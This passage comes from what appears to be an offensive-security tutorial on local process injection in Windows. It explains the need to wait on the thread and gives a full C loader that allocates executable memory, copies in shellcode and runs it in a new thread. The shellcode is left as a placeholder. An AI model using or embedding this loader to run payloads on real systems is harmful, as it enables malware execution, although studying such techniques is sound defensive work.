 #### 4. Letting Thread execute our shellcode

Cool now we have everything right?…., No. There is still one thing left, assuming you did something like this

```c
int main() {
...
VOID* pShellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
memcpy(pShellcodeAddress, shellcode, sizeof(shellcode));
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
return 0;     // <----- this will exit main just after creating the thread
}             //        so the thread doesn't get enough time to execute the shell
```

The shellcode won’t run yet, why? because we didn’t let the thread to finish executing the code yet, we exit even before the thread has finished running the code which is why the calculator doesn’t spawn. So we need to wait for the thread to finish before we exit, we can do that by just using getchar / [Sleep](https://www.geeksforgeeks.org/sleep-function-in-c/) (which may not be the best ways) or rather [WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject), which will wait until the thread has finished executing only after which we can move to the next code / instruction.

#### 5. Local Process Injection PoC

Here’s a final code to execute shellcode locally.

```c
#include <Windows.h>
#include <stdio.h>

unsigned char shellcode[] = 
"....."; // you can have it inside main as well

int main() {
    
    PVOID	pShellcodeAddress;
    HANDLE	hThread;

    pShellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    printf("Shellcode Address is  @---0x%p\n", pShellcodeAddress);
    memcpy(pShellcodeAddress, shellcode, sizeof(shellcode));
    hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
    if(hThread == NULL) {
 	printf("Error creating thread  @--0x%d\n", GetLastError());
	return -1;
    }
    printf("Created Thread to run Shellcode \n");
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```
